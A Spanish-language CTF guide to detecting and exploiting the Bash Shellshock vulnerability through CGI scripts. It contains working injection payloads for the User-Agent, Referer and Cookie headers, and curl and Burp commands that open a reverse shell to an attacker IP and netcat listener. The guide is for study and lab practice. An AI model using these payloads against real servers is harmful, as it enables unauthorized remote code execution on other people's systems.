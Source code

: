 
# 🐚 Shellshock - Detección y Explotación en CTF

## Índice
- [¿Cómo detectar un posible Shellshock?](#cómo-detectar-un-posible-shellshock)
- [¿En qué consiste?](#en-qué-consiste)
- [Reconocer pistas en HTTP](#reconocer-pistas-en-http)
- [Ejemplo de payload para probar](#ejemplo-de-payload-para-probar)
- [¿Cómo se inyectan?](#cómo-se-inyectan)
- [¿Qué hace el payload?](#qué-hace-el-payload)
- [¿Qué necesitas?](#qué-necesitas)
- [Ejemplo real](#ejemplo-real)
- [Notas adicionales](#notas-adicionales)
- [Advertencia](#advertencia)

---

## 🕵️‍♂️ ¿Cómo detectar un posible Shellshock?

Después de enumerar una máquina, si encontramos un servicio HTTP y realizamos un fuzzing, podemos descubrir una ruta como:

    /cgi-bin

Esto nos da pie para probar este tipo de ataque, ya que los scripts CGI suelen interactuar con Bash.

---

## 🛠️ ¿En qué consiste?

Shellshock permite que un atacante ejecute código arbitrario en el sistema, aprovechando cómo Bash procesa ciertas variables de entorno.

👉 El problema es que Bash permitía definir funciones en variables de entorno, pero continuaba interpretando código tras la función, permitiendo ejecución arbitraria.

Ejemplo:

    env X='() { :;}; echo Vulnerable' bash -c "echo Test"

Si el sistema es vulnerable, mostrará:

    Vulnerable
    Test

👉 Se ejecutó el `echo Vulnerable` fuera de la función.

---

## 🔍 Reconocer pistas en HTTP

Si encuentras una URL sospechosa (por ejemplo `/cgi-bin/test.cgi`), puedes probar inyecciones en las siguientes cabeceras HTTP:

- User-Agent
- Referer
- Cookie

👉 Estas cabeceras a veces se pasan como variables de entorno a los scripts CGI.

---

## 🧪 Ejemplo de payload para probar

    () { :; }; echo; echo; /bin/bash -c "echo VULNERABLE"

O con cabecera:

    User-Agent: () { :; }; echo; echo; /bin/bash -c "id"

### Usar Nmap para automatizar:

    nmap --script http-shellshock --script-args uri=/cgi-bin/test.cgi -p 80 <IP>

---

## 🚀 ¿Cómo se inyectan?

Como hemos dicho, normalmente en la cabecera User-Agent, pero también puede funcionar en Referer o Cookie.

### Ejemplo de inyección con curl:

    curl --silent -k \
      -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO EN ESCUCHA> 0>&1" \
      "https://172.17.0.2:<PUERTO SI SE NECESITA>/cgi-bin/<RECURSO>.cgi"

### Desglose del comando:

| Parte del comando                                   | Significado                                                       |
|----------------------------------------------------|-------------------------------------------------------------------|
| curl                                               | Cliente para hacer peticiones HTTP                                |
| --silent                                           | No muestra progreso ni información extra                          |
| -k                                                 | Permite conexiones HTTPS sin verificar certificado (útil en CTFs) |
| -H                                                 | Añade una cabecera HTTP personalizada                             |
| User-Agent: ...                                    | Cabecera que contiene el payload de Shellshock                    |
| () { :; };                                         | Inicia la función vacía y luego el código malicioso               |
| /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO> 0>&1  | Intenta abrir una reverse shell hacia tu máquina                  |
| URL final                                          | El recurso vulnerable (normalmente en /cgi-bin/)                  |

---

## 🎯 ¿Qué hace el payload?

Está enviando un User-Agent que explota Shellshock.

Si el servidor es vulnerable, ejecutará:

    /bin/bash -i >& /dev/tcp/<TU IP>/<TU PUERTO> 0>&1

👉 Esto crea una reverse shell (una conexión interactiva de Bash de vuelta a tu máquina).

---

## 🚦 ¿Qué necesitas?

### 1️⃣ Tener un listener en tu máquina:

    nc -lvnp <TU PUERTO EN ESCUCHA>

### 2️⃣ Reemplazar en el curl:

- <TU IP> → tu IP (por ejemplo: 10.10.14.23 si usas HackTheBox)
- <TU PUERTO> → puerto en el que tienes nc escuchando (por ejemplo 4444)
- <PUERTO SI SE NECESITA> → si el server usa un puerto especial (443, 8443, etc.)
- <RECURSO> → el CGI vulnerable (por ejemplo: test.cgi)

---

## 🧑‍💻 Ejemplo real

### En escucha en tu máquina:

    nc -lvnp 4444

### Payload:

    curl --silent -k \
      -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.23/4444 0>&1" \
      "https://172.17.0.2/cgi-bin/test.cgi"

👉 Si todo sale bien, recibirás una shell interactiva en tu Netcat. 🚀

---

## 📝 Notas adicionales

✅ El ataque también puede realizarse desde Burp Suite, con una cabecera como:

    User-Agent: () { ignored;}; /bin/bash -i >& /dev/tcp/<IP>/<PUERTO> 0>&1

✅ No es necesario probar directamente con reverse shell; puedes empezar con comandos simples como:

    User-Agent: () { ignored;}; /bin/bash -c "id"

Si ves una salida como:

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

→ ¡El servidor es vulnerable!

---

## ⚠️ Advertencia

> Solo usar este tipo de pruebas en entornos controlados (CTF, laboratorio).  
> Shellshock es una vulnerabilidad crítica que puede otorgar control total del sistema.

# 🚩 ¡A cazar flags! 🏴‍☠️
